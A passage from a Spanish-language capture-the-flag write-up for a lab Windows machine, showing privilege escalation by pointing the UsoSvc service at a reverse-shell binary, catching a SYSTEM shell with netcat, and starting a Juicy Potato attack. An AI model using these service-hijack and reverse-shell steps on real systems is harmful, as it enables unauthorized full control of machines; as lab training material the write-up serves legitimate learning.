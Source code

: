 * Modificando **servicio UsoSvc**:
```batch
C:\Users\Public\Desktop>sc.exe stop UsoSvc
.
C:\Users\Public\Desktop>sc.exe config UsoSvc binpath="C:\Users\Public\Desktop\shell.exe"
```

* Iniciando otra **netcat**:
```bash
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
```

* Iniciando **servicio UsoSvc**:
```batch
C:\Users\Public\Desktop>sc.exe start UsoSvc
sc.exe start UsoSvc
[SC] StartService FAILED 1053:
.
The service did not respond to the start or control request in a timely fashion.
```

* Obtenemos la sesión como administrador:
```batch
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.180] 49900
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
.
C:\Windows\system32>whoami
whoami
nt authority\system
```

<h2 id="exploit4">Explotando Máquina con Juicy Potato</h2>

Para este, necesitamos utilizar una **Reverse Shell** y tener descargado el **Juicy Potato**. 

Para descargarlo, utiliza el siguiente link:
* <a href="https://github.com/ohpe/juicy-potato/releases" target="_blank">Repositorio de ohpe: Juicy Potato - releases</a>

Y necesitamos tener un **CLSID**, para este caso, podemos utilizar el **CLSID** que tiene el **servicio UsoSvc**. Prueba si no es necesario modificar el **UsoSvc** antes de usar el **Juicy Potato**, no deberías tener problemas, pero si es el caso, modificalo como en la forma anterior. El **CLSID** lo podemos obtener de la siguiente página:
* <a href="https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/" target="_blank">Juicy Potato CLSID Windows 10 Enterprise</a>

Ahora, podemos utilizar la misma **Reverse Shell** que ya hicimos, entonces, carguemos el **Juicy Potato** en la máquina víctima y ejecutemoslo:

* Abre un servidor con **Python** donde tengas el **Juicy Potato**:
```bash
python3 -m http.server 80
```

